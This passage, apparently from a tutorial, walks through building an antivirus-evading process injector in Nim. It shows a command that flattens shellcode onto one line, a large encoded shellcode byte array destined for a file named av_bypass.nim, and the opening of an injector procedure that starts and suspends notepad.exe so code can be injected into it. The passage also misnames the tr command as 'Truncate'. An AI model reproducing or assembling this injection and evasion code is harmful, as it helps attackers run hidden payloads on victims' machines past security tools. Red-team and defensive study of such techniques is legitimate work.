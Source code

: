 ![](/images/nim_proc_inject_pt1/40. head.png)

![](/images/nim_proc_inject_pt1/41. tail.png)


Next we need to strip the newline character at the end of each line so all of the shellcode ends up on a single line.  We can use a built-in Linux command "tr" to do this:

    tr -d '\n' <code.out > code_stripped.out

Where:

tr  :  Truncate command.

-d '\n'  :  Search for and remove the delimeter for the newline character.

\<code.out  :  Take input for this command from the file code.out.

\> code_stripped.out  :  Place the output of this command into the file code_stripped.out.

\<\< Development Machine \>\> 
    
Now, you can drag and drop code_stripped.out over to your Development Machine, open it, and copy/paste the shellcode into av_bypass.nim.  I have trimmed the output here to fit in the code box.  Your actual code will be several thousand lines:

    var shellcode: array[201391, byte] = [ byte 0xd9,0xc3,0x48,0xbb,0xd3,0x76,0x8b,0x6e,0xea,0xe9,0xaa,0x6b,0x54,0x4d,0x31,0xed,0x41,0x5c,0x66,0x41,0xbd,0x4f,0x62,0x66,0x41,0x81,0xe4,0x10,0xf6,0x49,0x0f,0xae,0x04,0x24,0x49,0x83,0xc4,0x08,0x49,0x8b,0x3c,0x24,0x49,0xff,0xcd,0x4a,0x31,0x5c,0xef,0x37,0x4d,0x85,0xed,0x75,0xf3,0x9b,0xff,0x68,0x08,0x6b,0x0a,0xda,0x91,0x9b,0x47,0x42,0x26,0x52,0xf9,0xb6,0x77,0x62,0x64,0xec,0xed,0xb7,0x30,0x66,0x23,0xdc,0xd8,0x88,0x08,0x53,0xa0,0xc8,0x23,0x58,0x05,0x83,0x26,0x15,0x20,0xe2,0x5a,0x97,0xb8,0x90,0x26,0x6f,0x20,0xdf,0x98,0x8e,0x30,0xd6,0x8d,0xad,0xc6,0xa0,0xd3,0x8b,0xe9,0x7b,0xff,0xb0,0x0d,0xcd,0xc6,0x2b,0x6a,0x97,0xdf,0xf8,0xd5,0x61,0xb7,0x00,0xdd,0xc0,0xdf,0xf8,0x71,0xfa,0x7e,0x42,0xa9,0xa3,0x69,0xfa,0x8e,0x60,0xbf,0x1b
    <output trimmed>
    0xc3,0x6a,0x97,0xdf,0xf8,0x8e,0x29,0x36,0xc3,0x6a,0x97,0xdf,0xf8,0x8e,0x29,0x36,0xc3,0x6a,0x97,0xdf,0xf8,0x8e,0x29,0x36,0xc3,0x6a,0x97,0xdf,0xf8,0x8e,0x29,0x36,0xc3,0x6a,0x97,0xdf,0xf8,0x8e,0x29,0x36,0xc3,0x6a,0x97,0xdf,0xf8,0x8e,0x29,0x36,0xc3,0x6a,0x97,0xdf,0xf8,0x8e,0x29,0x36,0xc3,0x6a,0x97,0xdf,0xf8,0x8e,0x29,0x36,0xc3,0x6a,0x97,0xdf,0xf8,0x8e,0x29,0x36,0xc3,0x6a,0x97,0xdf,0xf8,0x8e,0x29,0x36,0xc3,0x6a,0x97,0xdf,0xf8,0x8e,0x29,0x36,0xc3,0x6a,0x97,0xdf,0xf8,0x8e,0x29,0x36,0xc3,0x6a,0x97,0xdf,0xf8,0x8e,0x29,0x36,0xc3,0x6a,0x97,0xdf,0xf8,0x8e,0x29,0x36,0xef,0x6b,0x97,0xdf,0xe8,0x80,0x29,0x36,0xc9,0x6a,0x97,0xdf,0xf8,0x8e,0x29,0x36,0xc3,0x6a,0x97,0x6a,0xd7,0xaa,0x61,0xca,0x97,0xdf,0xf8,0x8e,0x29,0x36,0xc3, ]
    
    ### end process injection code


With our shellcode array stored in the variable "shellcode", we can now write the core of the process injection function.  The following code should start on the line after your shellcode variable:

    proc injector[I, T](shellcode: array[I, T]): void =
        echo "[*] Initializing injector."
    
    # Start and suspend a process:
        let injectedProcess = startProcess("C:\\Windows\\system32\\notepad.exe")
        injectedProcess.suspend()
        echo "[*] Started and suspended process: ", injectedProcess.processID
        
